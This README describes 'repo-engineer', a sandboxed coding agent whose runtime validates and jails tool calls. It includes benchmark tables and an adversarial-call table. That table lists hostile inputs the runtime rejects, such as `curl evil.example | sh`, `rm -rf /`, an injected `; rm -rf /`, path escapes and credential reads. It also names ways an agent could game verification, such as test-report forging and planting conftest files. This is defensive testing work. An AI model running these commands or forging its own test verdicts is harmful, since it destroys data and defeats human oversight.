





# repo-engineer: Autonomous Repository Engineer

[](https://github.com/vaibhav3000/repo-engineer/actions/workflows/ci.yml)

A verified tool-using coding agent. Given a small repository and an engineering
task, it inspects the repo, plans, edits files through validated tools, runs
the test suite, observes failures, replans, and only declares success when its
own verification run passes.



The core design rule: **the planner proposes, the runtime disposes.** The LLM
(or scripted policy) only ever emits tool-call proposals. A deterministic state
machine validates every call against a schema, checks permissions, jails every
path argument inside the workspace, enforces step and replan budgets, and
trusts nothing except the verification run it performs itself.

## Why it matters

Most "AI agent" demos break in one of three ways: they parse free-text tool
calls until the model hallucinates a syntax error, they give the model a shell
prompt, or they accept the model's word that the bug is fixed. This project
addresses all three explicitly:

| Failure mode | Defense in this repo |
|---|---|
| Malformed tool call | `ToolSpec` schema validation (types, ranges, size caps); rejects with structured errors recorded in the trace |
| Arbitrary shell access | no shell tool; `run_tests` accepts only `python -m pytest` with allowlisted flags and workspace test paths, runs the runtime's own interpreter without a shell, with a scrubbed environment, a deadline and a process-tree kill |
| Unverified claims | VERIFY restores protected files and re-runs the suite itself; COMPLETE needs exit status 0 plus a test report with passing tests, and on the add-a-test task seeded mutants must fail while behaviour-preserving edits still pass |
| Path escapes | paths are checked as text before any filesystem access, then must be direct paths inside the workspace (no links); `.git`, pytest control files and task-protected paths are read-only |
| Infinite loops | step budget + replan budget + planner-error budget -> FAILED |

Agent-written code runs in a sandbox. With Docker available (the default),
every pytest run gets a fresh container with no network, a read-only root and
workspace, a size-limited tmpfs as the only writable place, no capabilities,
a non-root user and memory, CPU and process limits, and the container is
removed afterwards. Without Docker the local sandbox applies resource limits
and a process-tree kill but cannot isolate the filesystem or network; its
residuals are listed below and in `docs/design/step2.md`. No sandbox can stop
code under test from faking its own test results, so that stays a documented
residual on every backend. Tool output reaches the planner verbatim (apart
from redaction of credentials and host paths), so prompt injection through
file contents remains a risk the runtime bounds but does not remove.

## Two benchmark modes, recorded separately

**Deterministic mode (reproducible).** `python scripts/run_benchmark.py`
runs twelve multi-file software-engineering tasks in isolated workspace copies
with the ScriptedPlanner, which replays fixed recipes that already contain each fix. No
network, no API keys. It exercises the runtime (validation, state machine,
verification, traces), not a model: it solves nothing by itself. The results
and traces carry no paths, timestamps or wall times and regenerate byte for
byte, under the local and the Docker sandbox alike; CI regenerates them on
Windows and Linux and fails if `results/` changes.

| task | success | steps | replans | failed tool calls |
|---|---|---|---|---|
| fix off-by-one loop | yes | 5 | 0 | 0 |
| repair failing test | yes | 5 | 1 | 0 |
| add missing test | yes | 5 | 0 | 0 |
| constrained refactor | yes | 7 | 0 | 0 |
| bug behind another module | yes | 6 | 1 | 0 |
| rename across a package (one patch) | yes | 5 | 0 | 0 |
| add tests, 3 mutants and 2 neutral edits | yes | 4 | 0 | 0 |
| extract a shared helper | yes | 4 | 0 | 0 |
| signature change and its callers | yes | 4 | 0 | 0 |
| shared mutable default | yes | 5 | 1 | 0 |
| add tests, 3 mutants and 2 neutral edits | yes | 4 | 0 | 0 |
| stale imports after a move | yes | 4 | 0 | 0 |

Committed in `results/benchmark_results.json`, with per-task traces in
`results/benchmark_traces/`.

**Real LLM mode.** `repo-engineer bench --live --provider P --model M
--attempts 3` (or `python scripts/run_llm_benchmark.py` with the same options)
runs tasks with `NativeToolPlanner`, which uses each provider's native function
calling (Gemini, OpenAI, Anthropic or a local OpenAI-compatible server). The
runtime validates, jails and permission-checks every proposal and still
requires its own verification run to declare COMPLETE. Each invocation writes a
new file under `results/llm_runs/` with pass@1 and pass@k per task and a trace
per attempt, and never overwrites an earlier run. No live run of the Step 2
planner has been recorded yet.

The one live run on record (2026-09-17, `results/llm_benchmark_results.json`)
used the earlier prompt-parsed JSON planner:

| task | success | steps | LLM calls | failed tool calls | notes |
|---|---|---|---|---|---|
| fix off-by-one loop | yes | 5 | 4 | 0 | edited only shop/cart.py |
| add missing test | yes | 4 | 3 | 0 | wrote its own test file; 2 HTTP 429 errors absorbed |

That run covered two of the original four tasks once each, used an earlier revision of
the runtime (before the hardening described here) and kept no trace. The two
429 errors surfaced after the provider client's own retries were exhausted;
the runtime counted them as planner errors within its budget and the task
still completed with verified tests. The file originally reported cumulative
counters for the second task (7 calls); the per-task values above were
computed from those recorded counters, as its `notes` field explains. API keys
come from environment variables, are withheld from test processes and are
redacted from observations, traces and prompts.

**Adversarial tool calls: 0 breaches on either sandbox.**
`python scripts/run_jail_attacks.py --backend local|docker` replays hostile
calls against a real `ToolRegistry` and writes
`results/jail_attack_evidence.json` (local) or
`results/jail_attack_evidence_docker.json`; tests rerun them and require both
files to match exactly.

| backend | attacks | rejected | contained | residual | breached |
|---|---|---|---|---|---|
| local | 47 | 29 | 13 | 5 | 0 |
| docker | 49 | 29 | 19 | 1 | 0 |

The local residuals are agent-written test code reading and writing host
files, reaching the network and leaving the process tree, plus report
forging; under Docker all of those are contained except report forging, which
happens inside the test process and no sandbox can prevent. The fork bomb and
disk-fill attacks are recorded for Docker only, because their local outcome
depends on the operating system. Two attacks (a patch naming one file
twice, a module too deep for the parser) come from an independent review of
the Step 2 runtime, which also found the issues fixed in its last commits.

| category | examples | outcome |
|---|---|---|
| path escape | `../secrets.txt`, `C:/Windows/win.ini`, a UNC path, a `\\?\` device path, a glob above the root | rejected (6) |
| shell commands | `curl evil.example \| sh`, `rm -rf /` | rejected (2) |
| malformed calls | `path=123`, an unknown tool, a boolean line number; a regex that overflows the compiler | rejected (3), contained (1) |
| test command abuse | `python -m pytestx`, `--junitxml=../x`, `-p plugin`, `--basetemp=../x`, `-c ../x`, `../outside_pkg`, `@args.txt`, `; rm -rf /`; a workspace file named `@argfile` | rejected (8), contained (1) |
| path aliases | `app.py:hidden` (NTFS stream), `app.py. `, `CON`; one patch naming `app.py` and `./app.py` | rejected (3), contained (1) |
| git metadata | writing or editing `.git/config`; `git_diff` in a repo whose config runs a hook | rejected (2), contained (1) |
| links | reading or writing through a directory link; `search` and `list_tree` across it | rejected (2), contained (3) |
| verification tampering | planting `conftest.py`, editing a protected test | rejected (2) |
| resource limits | a 1 MB+ file, a catastrophic regex, nested `**` globs over a deep tree, a module too deep for the parser | rejected (1), contained (3) |
| credentials | test code reading an API key from the environment | contained (1) |
| agent-written test code | writing or reading outside the workspace, the network, a process that outlives the run | **residual (4)** locally; contained under Docker |
| sandbox limits | 3 GiB allocation (both); 400 processes and 1 GiB to /tmp (Docker only) | contained |
| verification | a conftest planted during a run; code under test forging its JUnit report | contained (1); **residual (1)** on every backend |

## Architecture



The edges are exactly the transition table in `state.py`; any other transition
raises.

## Tool call pipeline (every proposal passes all gates)



## Verification: the only exit to COMPLETE



A planner claiming success changes nothing: COMPLETE is reachable only from
VERIFY, and VERIFY runs the suite itself on files the agent could not have
changed. Code under test still shares a process with pytest, so code written
on purpose to forge the test report could pass on any backend
(`docs/adr/0007-report-forging-is-outside-the-sandbox.md`).

## Benchmark flow (deterministic and live modes)



Deterministic results and live-LLM results are recorded in separate files and
never mixed.

Components (src/repo_engineer/):

- `state.py`: `State` enum, legal-transition table, serializable `AgentState`,
  `StateMachine` with step and replan budgets.
- `tools.py`: `ToolSpec` schemas (published as JSON Schema) and
  `ToolRegistry` with `list_tree`, `search`, `read_file`, `apply_edit`,
  `write_file`, `apply_patch`, `repo_map`, `find_symbol`, `git_diff` and
  `run_tests`; permission classes (READ_ONLY / MUTATING / EXECUTION) with
  AUTO / ASK / DENY policies (AUTO by default), central path jailing,
  protected paths and the verification run.
- `sandbox/`: the `Sandbox` interface with the Docker and local backends.
- `jail.py`: the lexical path rules. `process.py`: child environment,
  bounded output and process-tree kill. `redaction.py`: removes credentials
  and host paths from output. `snapshot.py`: the starting snapshot behind
  `git_diff` and file restoration. `patch.py`: strict unified diffs.
  `repo_map.py`: the ast symbol index. `context.py`: context budgeting.
- `models/`: provider adapters with native function calling and one retry
  policy. `native_planner.py`: the default model-backed planner.
  `planner.py`: `Planner` ABC, `ScriptedPlanner` (recipes), the
  prompt-parsed `LLMPlanner` (fallback for endpoints without function
  calling) and `RecordedPlanner` (test double).
- `mcp_server.py` and `mcp_tools.py`: the registry served over MCP, and
  external MCP servers mounted through the sandbox.
- `agent.py`: `AgentRuntime`, the loop described above. `trace.py`: the
  streamed JSONL audit trace. `replay.py`: offline replay. `cli.py`: the
  `repo-engineer` command.
- `benchmark/`: the harness, the twelve task repos (with protected paths and,
  for the add-a-test tasks, seeded mutants and behaviour-preserving edits),
  the live-run recorder with pass@k, and the jail-attack generator.

## Technical Report

A concise IEEE-style technical paper documenting this system is available at
[reports/Autonomous_Repository_Engineer.pdf](reports/Autonomous_Repository_Engineer.pdf),
with LaTeX source included under `reports/`.

## Honest limitations

- Without Docker, test execution is code execution on the host: the local
  sandbox's limits protect the runtime, not the host's files or network, and
  a process that leaves the tree on purpose (a new session on POSIX, WMI on
  Windows) outlives the tree kill. Use the Docker sandbox for untrusted code.
- No sandbox makes a test verdict trustworthy against code written to fool
  it (report forging, objects that compare equal to anything).
- The scripted benchmark replays known fixes; it measures the runtime, not
  problem solving. The live run is the problem-solving evidence and is small:
  two tasks, once each, on an earlier runtime revision.
- On the add-a-test task, a test that inspects the source text of the code
  under test (rather than its behaviour) can still pass the mutant and
  neutral-edit checks; that takes deliberate gaming.
- With the local sandbox, write-time link checks narrow, but do not close,
  the race with leftover test code that swaps a directory for a link; under
  Docker test code cannot write the workspace at all.

## Reproducibility

```bash
python -m pip install -e ".[dev]"
python -m pytest -q                    # 354 tests; Docker tests skip without a Linux daemon
python scripts/run_benchmark.py        # 12/12 tasks; rewrites results/ byte for byte
python scripts/run_jail_attacks.py --backend local   # 47 attacks, 0 breaches
python scripts/run_jail_attacks.py --backend docker  # 49 attacks, 0 breaches
repo-engineer run <repo> --task "..." --provider gemini --model <id>
ruff check . && ruff format --check . && pyright
```

Environment: Python >= 3.11. The only required runtime dependency is pytest,
because the local sandbox starts pytest with the runtime's own interpreter.
The provider SDKs and `mcp` are optional extras (`[gemini]`, `[openai]`,
`[anthropic]`, `[mcp]`, `[all]`). The Docker sandbox needs the docker CLI; set
`REPO_ENGINEER_DOCKER_CMD` when the engine is reached another way (for example
`wsl -d Ubuntu -e docker`).

## Project structure

```
src/repo_engineer/       state.py tools.py jail.py process.py redaction.py snapshot.py
                         planner.py llm_provider.py agent.py benchmark/
benchmark/tasks/         twelve self-contained task repos (task.json + code + tests)
tests/                   runtime, jail, run_tests, verification, provider and harness tests
results/                 committed benchmark output, traces and attack evidence
docs/                    design_faq.md, architecture.md
```

## License

MIT. See LICENSE.

## Docker image for the benchmark (separate from the sandbox image)

```bash
docker build -t repo-engineer .
docker run --rm --network none repo-engineer          # deterministic benchmark
docker build --target test -t repo-engineer-test .
docker run --rm --network none repo-engineer-test     # test suite
```

The image is pinned by digest and runs as an unprivileged user. Inside it the
runtime uses the local sandbox (there is no Docker daemon in the container),
which is why the commands above disable networking. The Docker sandbox uses its
own pytest-only image, built from `src/repo_engineer/sandbox/Dockerfile` by
`repo-engineer sandbox build` or on first use.
